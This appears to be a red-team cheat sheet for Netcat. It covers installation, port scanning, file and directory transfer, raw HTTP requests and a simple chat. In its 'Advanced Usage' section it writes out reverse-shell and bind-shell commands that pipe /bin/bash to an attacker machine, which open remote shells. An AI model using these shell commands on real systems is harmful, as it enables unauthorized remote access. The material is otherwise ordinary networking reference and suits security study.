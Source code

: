 # Netcat 🐾📡
#Tool #RED #TTNet 

Netcat (often called the “Swiss Army knife” of networking) is a versatile tool for network debugging, testing, and exploration. This guide will help you master Netcat like a networking wizard. 🧙‍♂️✨

**LINK TO TOOL DOCUMENTATION[ HERE](https://www.kali.org/tools/netcat/)**

**Netcat (nc)** is a powerful networking utility for reading and writing data across networks. It's used for:
- Debugging and testing network connections.
- File transfers.
- Port scanning.
- Setting up reverse shells and backdoors.

---
![net cat](https://upload.wikimedia.org/wikipedia/ru/2/29/Netcat_logo.png)

---

### 🚀 Installing Netcat (nc)

#### 🔹 **Debian/Ubuntu** 
```sh 
sudo apt update && sudo apt install netcat -y
```

#### 🔹 **Windows (Nmap Version)**
Download from: [Nmap Netcat](https://nmap.org/ncat/)

---

## 🧰 Common Commands

## 🌟 Most Commonly Used Command
```bash
nc -nvlp *.*.*.*
```
Set up a listener with numeric IPs, verbose output, and a specified port.

### 🔍 Basic Port Scanning
```bash
nc -zv 192.168.1.1 20-80
```
Scan ports 20 to 80 on a target host.

### 📡 Establish a TCP Connection
```bash
nc 192.168.1.1 80
```
Connect to port 80 on the target host.

### 🛠 Listen for Incoming Connections
```bash
nc -l -p 1234
```
Set up a listener on port 1234.

### 🔄 File Transfer (Send)
```bash
nc -w 3 192.168.1.2 1234 < file.txt
```
Send a file to a listener.

### 🔄 File Transfer (Receive)
```bash
nc -l -p 1234 > file.txt
```
Receive a file sent to a listener.

---

## ⚙️ Advanced Usage

### 🌐 Create a Reverse Shell
#### Listener (on Attacker Machine):
```bash
nc -l -p 4444
```
#### Target Machine:
```bash
nc 192.168.1.10 4444 -e /bin/bash
```
Establish a reverse shell to the attacker machine.

### 🖥️ Create a Bind Shell
#### Target Machine:
```bash
nc -l -p 5555 -e /bin/bash
```
#### Attacker Machine:
```bash
nc 192.168.1.20 5555
```
Connect to the bind shell on the target machine.

### 📜 HTTP Requests
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
Manually send an HTTP GET request to a web server.

### 🛡️ Transfer Directories
#### On Sending Machine:
```bash
tar -czf - /path/to/dir | nc -w 3 192.168.1.2 1234
```
#### On Receiving Machine:
```bash
nc -l -p 1234 | tar -xzf -
```
Transfer an entire directory over the network.

---

## 📋 Handy Options

| Option        | Description                                     |
|---------------|-------------------------------------------------|
| `-l`          | Listen for incoming connections                 |
| `-p`          | Specify the local port to use                  |
| `-z`          | Perform a port scan without sending data       |
| `-v`          | Enable verbose mode                            |
| `-e`          | Execute a command after connection             |
| `-w`          | Set a timeout for connections (in seconds)     |
| `-u`          | Use UDP instead of TCP                         |

---

## 🌐 Example Scenarios

### Scenario 1: Simple Chat Between Two Machines
#### Machine A:
```bash
nc -l -p 5678
```
#### Machine B:
```bash
nc 192.168.1.5 5678
```

### Scenario 2: Copy Files Across Hosts
#### Sender:
```bash
nc -w 3 192.168.1.2 1234 < secret.zip
```
#### Receiver:
```bash
nc -l -p 1234 > secret.zip
```

### Scenario 3: Basic TCP Port Scan
```bash
nc -zv 192.168.1.10 20-100
```

---

## 🚀 Pro Tips

### 1️⃣ Combine with Scripts
Use Netcat in scripts to automate testing and data collection.

### 2️⃣ Use with Sudo
Elevated permissions may be required for specific ports and operations.

### 3️⃣ Secure Connections
Netcat itself does not encrypt connections. For secure alternatives, consider tools like **Socat** or SSH.

---

## 📚 References
- [Netcat Official Documentation](https://manpages.ubuntu.com/manpages/bionic/man1/nc.1.html)
- [Network Basics Guide](https://en.wikipedia.org/wiki/Network_socket)

---


